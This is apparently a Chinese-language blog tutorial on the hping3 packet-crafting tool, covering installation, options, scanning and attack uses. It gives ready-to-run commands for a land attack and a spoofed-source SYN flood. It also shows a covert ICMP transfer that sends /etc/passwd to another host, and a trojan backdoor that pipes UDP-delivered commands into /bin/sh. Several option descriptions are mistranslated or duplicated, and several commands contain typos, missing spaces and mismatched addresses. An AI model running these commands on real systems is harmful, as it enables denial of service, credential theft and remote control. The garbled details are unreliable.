 #  Linux Command hping3 测试网络安全工具
tags: 网络

## 1. 简介
测试网络及主机的安全。
hping 是用于生成和解析TCPIP协议数据包的开源工具。创作者是[Salvatore Sanfilippo](https://github.com/antirez)。目前最新版是hping3，支持使用`tcl`脚本自动化地调用其API。hping是安全审计、防火墙测试等工作的标配工具。hping优势在于能够定制数据包的各个部分，因此用户可以灵活对目标机进行细致地探测。

## 2. 安装

```bash
yum install libpcap-devel tc-devel
ln -s /usr/include/pcap-bpf.h /usr/include/net/bpf.h
wget http://www.hping.org/hping3-20051105.tar.gz
tar zxvf hping3-20051105.tar.gz
cd hping3-20051105
./configure
make
make install
```

## 3. 选项

```bash
-H --help 显示帮助。
-v -VERSION 版本信息。
-c --count count 发送数据包的次数 关于countreached_timeout 可以在hping2.h里编辑。
-i --interval 包发送间隔时间（单位是毫秒）缺省时间是1秒,此功能在增加传输率上很重要,在idle/spoofing扫描时此功能也会被用到,你可以参考hping-howto获得更多信息-fast 每秒发10个数据包。
-n -nmeric 数字输出，象征性输出主机地址。
-q -quiet 退出。
-I --interface interface name 无非就是eth0之类的参数。
-v --verbose 显示很多信息，TCP回应一般如：len=46 ip=192.168.1.1 flags=RADF seq=0 ttl=255 id=0 win=0 rtt=0.4ms tos=0 iplen=40 seq=0 ack=1380893504 sum=2010 urp=0
-D --debug 进入debug模式当你遇到麻烦时，比如用HPING遇到一些不合你习惯的时候，你可以用此模式修改HPING，（INTERFACE DETECTION,DATA LINK LAYER ACCESS,INTERFACE SETTINGS,.......）
-z --bind 快捷键的使用。
-Z --unbind 消除快捷键。
-O --rawip RAWIP模式，在此模式下HPING会发送带数据的IP头。
-1 --icmp ICMP模式，此模式下HPING会发送IGMP应答报，你可以用--ICMPTYPE --ICMPCODE选项发送其他类型/模式的ICMP报文。
-2 --udp UDP 模式，缺省下，HPING会发送UDP报文到主机的0端口，你可以用--baseport --destport --keep选项指定其模式。
-9 --listen signatuer hping的listen模式，用此模式，HPING会接收指定的数据。
-a --spoof hostname 伪造IP攻击，防火墙就不会记录你的真实IP了，当然回应的包你也接收不到了。
-t --ttl time to live 可以指定发出包的TTL值。
-H --ipproto 在RAW IP模式里选择IP协议。
-w --WINID UNIX ,WINDIWS的id回应不同的，这选项可以让你的ID回应和WINDOWS一样。
-r --rel 更改ID的，可以让ID曾递减输出，详见HPING-HOWTO。
-F --FRAG 更改包的FRAG，这可以测试对方对于包碎片的处理能力，缺省的“virtual mtu”是16字节。
-x --morefrag 此功能可以发送碎片使主机忙于恢复碎片而造成主机的拒绝服务。
-y -dontfrag 发送不可恢复的IP碎片，这可以让你了解更多的MTU PATH DISCOVERY。
-G --fragoff fragment offset value set the fragment offset
-m --mtu mtu value 用此项后ID数值变得很大，50000没指定此项时3000-20000左右。
-G --rroute 记录路由，可以看到详悉的数据等等，最多可以经过9个路由，即使主机屏蔽了ICMP报文。
-C --ICMPTYPE type 指定ICMP类型，缺省是ICMP echo REQUEST。
-K --ICMPCODE CODE 指定ICMP代号，缺省0。
--icmp-ipver 把IP版本也插入IP头。
--icmp-iphlen 设置IP头的长度，缺省为5（32字节）。
--icmp-iplen 设置IP包长度。
--icmp-ipid 设置ICMP报文IP头的ID，缺省是RANDOM。
--icmp-ipproto 设置协议的，缺省是TCP。
-icmp-cksum 设置校验和。
-icmp-ts alias for --icmptype 13 (to send ICMP timestamp requests)
--icmp-addr Alias for --icmptype 17 (to send ICMP address mask requests)
-s --baseport source port hping 用源端口猜测回应的包，它从一个基本端口计数，每收一个包，端口也加1，这规则你可以自己定义。
-p --deskport [+][+]desk port 设置目标端口，缺省为0，一个加号设置为:每发送一个请求包到达后，端口加1，两个加号为：每发一个包，端口数加1。
--keep 上面说过了。
-w --win 发的大小和windows一样大，64BYTE。
-O --tcpoff Set fake tcp data offset. Normal data offset is tcphdrlen / 4.
-m --tcpseq 设置TCP序列数。
-l --tcpck 设置TCP ack。
-Q --seqnum 搜集序列号的，这对于你分析TCP序列号有很大作用。
```

## 4. Hping3功能
Hping3主要有以下典型功能应用：

###  4.1 防火墙测试


测试防火墙对ICMP包的反应、是否支持`traceroute`、是否开放某个端口、对防火墙进行拒绝服务攻击（DoS attack）。例如，以LandAttack方式测试目标防火墙（Land Attack是将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接）。

```bash
hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10
```

### 4.2 端口扫描
Hping3也可以对目标端口进行扫描。Hping3支持指定TCP各个标志位、长度等信息。以下示例可用于探测目标机的80端口是否开放：

```bash
hping3 -I eth0  -S 192.168.10.1 -p 80
```

其中-I eth0指定使用eth0端口，-S指定TCP包的标志位SYN，-p 80指定探测的目的端口。

hping3支持非常丰富的端口探测方式，nmap拥有的扫描方式hping3几乎都支持（除开connect方式，因为Hping3仅发送与接收包，不会维护连接，所以不支持connect方式探测）。而且Hping3能够对发送的探测进行更加精细的控制，方便用户微调探测结果。当然，Hping3的端口扫描性能及综合处理能力，无法与Nmap相比。一般使用它仅对少量主机的少量端口进行扫描。

### 4.3 Idle扫描
Idle扫描（Idle Scanning）是一种匿名扫描远程主机的方式，该方式也是有Hping3的作者Salvatore Sanfilippo发明的，目前Idle扫描在Nmap中也有实现。

该扫描原理是：寻找一台idle主机（该主机没有任何的网络流量，并且IPID是逐个增长的），攻击端主机先向idle主机发送探测包，从回复包中获取其IPID。冒充idle主机的IP地址向远程主机的端口发送SYN包（此处假设为SYN包），此时如果远程主机的目的端口开放，那么会回复SYN/ACK，此时idle主机收到SYN/ACK后回复RST包。然后攻击端主机再向idle主机发送探测包，获取其IPID。那么对比两次的IPID值，我们就可以判断远程主机是否回复了数据包，从而间接地推测其端口状态。

### 4.4 拒绝服务攻击
使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为`192.168.10.99`，并使用1000微秒的间隔发送各个SYN包。

```bash
hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```

其他攻击如smurf、teardrop、land attack等也很容易构建出来。

### 4.5 文件传输
Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。在接收端开启服务：

```bash
hping3 192.168.1.159--listen signature --safe  --icmp
```

监听ICMP包中的签名，根据签名解析出文件内容。

在发送端使用签名打包的ICMP包发送文件：

```bash
hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
```

将/etc/passwd密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。

### 4.6 木马功能
如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与netcat的后门功能类似。

示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。

在木马启动端：

```bash
hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh
```

在远程控制端：

```bash
echo ls >test.cmd
hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd
```

将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。

当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。


更多阅读：

 - [hping3(8) - Linux man page](https://linux.die.net/man/8/hping3)
 - [Hping Tips and Tricks](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)
 - [Hping3: Create TCP / IP Packets and Perform DoS Attacks on Lin](https://itigic.com/hping3-create-tcp-ip-packets-and-perform-dos-attacks-on-linux/)
